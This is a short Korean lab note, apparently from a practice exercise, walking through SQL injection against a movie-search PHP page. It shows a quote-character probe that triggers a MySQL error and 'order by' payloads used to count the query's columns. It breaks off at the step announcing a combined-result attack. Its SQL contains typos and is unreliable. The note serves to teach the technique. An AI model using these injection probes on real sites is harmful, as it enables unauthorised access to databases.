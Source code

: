 Kali#2 : client

- man 이라는 단어를 입력해서 검색을 요청
- 서버에서 클라이언트에게 받은 파라미터로 데이타베이스에서 sql구문을 사용해서 값을 조회
- 조회된 값을 클라이언트에게 응답

[화면]

제목 : **man**

[전달 << 요청 파라미터를 통해서 전달]

sol_1.php?title=**man**

[사용 >> 쿼리문을 만드는데 사용될 것으로 유추]

select * from movies arer title = **'man'**

<br>

1. 입력값이 전달 및 사용 과정에서 아무런 조작이 발생하지 않는지 궁금???

[화면]

제목 : **man`**

[전달 << 요청 파라미터를 통해서 전달]

sol_1.php?title=**man`**

[사용 >> 쿼리문을 만드는데 사용될 것으로 유추]

select * from movies arer title = **'man`'**

<br>

실행결과

Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1

---> 백엔드 DB가 MySQL이라는 정보와 화면에서 입력한 값은 그대로 쿼리 생성 및 실행에 사용된다.

<br>

2. 정상적인 쿼리가 반환하는 컬럼의 개수를 확인

select * fro mives where title = '%**man ' order by 1 --**%'  <--- 제목이 man으로 끝나는 영화를 조회해서 첫번째 컬럼으로 정렬



select * fro mives where title = '%**man ' order by 1 --**%' 

~

select * fro mives where title = '%**man ' order by 8 --**%'

--> Error: Unknonw column '8' in ' order clause'

--> 정상적인 쿼리가 반환하는 컬럼의 개수는 7개이다

<br>

3. 정상적인 쿼리의 실행의 결과에 공격자가 원하는 쿼리의 실행 결과를 결합해서 화면에 출력
